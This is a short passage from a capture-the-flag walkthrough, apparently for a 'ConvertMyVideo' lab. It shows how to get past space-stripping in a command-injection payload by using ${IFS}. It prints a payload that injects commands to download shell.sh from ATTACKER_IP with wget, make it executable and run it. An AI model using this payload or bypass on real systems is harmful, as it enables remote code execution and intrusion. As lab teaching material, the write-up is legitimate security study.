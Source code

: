 ![screenshot10](../assets/images/convertmyvideo/screenshot10.png)

Hmmm there seems to be a problem with our payload. If we look closely at the error message, it seems that there is an argument error with our `wget` command. Most likely, the **spaces** in our payload are being stripped before being sent to the command-line.

To bypass the space stripping, we can use `${IFS}` to replace the spaces.

---

**From [here](https://bash.cyberciti.biz/guide/$IFS):** 

![screenshot111](../assets/images/convertmyvideo/screenshot11.png)

---

Now our payload becomes:

```
test;wget${IFS}http://ATTACKER_IP:8000/shell.sh;chmod${IFS}+x${IFS}shell.sh;./shell.sh;
```

We send in the payload...

![screenshot12](../assets/images/convertmyvideo/screenshot12.png)

